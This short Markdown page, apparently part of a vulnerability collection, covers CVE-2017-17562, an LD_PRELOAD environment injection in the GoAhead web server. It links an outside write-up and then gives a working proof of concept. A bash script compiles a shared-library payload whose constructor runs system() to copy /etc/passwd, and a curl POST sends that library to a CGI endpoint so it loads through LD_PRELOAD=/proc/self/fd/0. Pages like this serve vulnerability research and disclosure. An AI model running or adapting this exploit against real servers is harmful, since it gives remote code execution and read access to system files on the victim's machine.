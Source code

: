 ## CVE-2017-17562 - LD_PRELOAD env 注入漏洞

参考链接

* [REMOTE LD_PRELOAD EXPLOITATION](https://www.elttam.com.au/blog/goahead/)

Poc 

```
#!/bin/bash

cat > payload.c << EOF
void __attribute__ ((constructor)) setup ()
{
	unsetenv("LD_PRELOAD");
	
    system("cp /etc/passwd /tmp");
    write(1, "Hello: World!\n", 14);
}
EOF

gcc -fPIC -shared payload.c -o payload.so

curl -i -X POST --data-binary @payload.so "http://127.0.0.1/cgi-bin/cgitest?LD_PRELOAD=/proc/self/fd/0"
```

